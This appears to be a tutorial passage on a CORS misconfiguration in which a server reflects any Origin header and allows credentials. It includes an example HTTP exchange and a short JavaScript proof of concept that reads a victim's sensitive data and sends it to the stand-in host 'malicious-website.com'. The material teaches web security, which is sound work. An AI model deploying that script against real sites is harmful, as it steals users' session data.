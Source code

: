 Some applications need to provide access to a number of other domains. Since maintaining a list of allowed domains requires an ongoing effort, many take the easy route which adds more risk in creating mistakes that introduces a vulnerability.

One way developers do this is by reading the `Origin` HTTP header from requests and includes a response header stating that the requesting origin is allowed. For example:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
The server will then send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```
These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application accepts arbitrary origins, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information, an attacker can retrieve these information by placing a script like the following on their website:
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```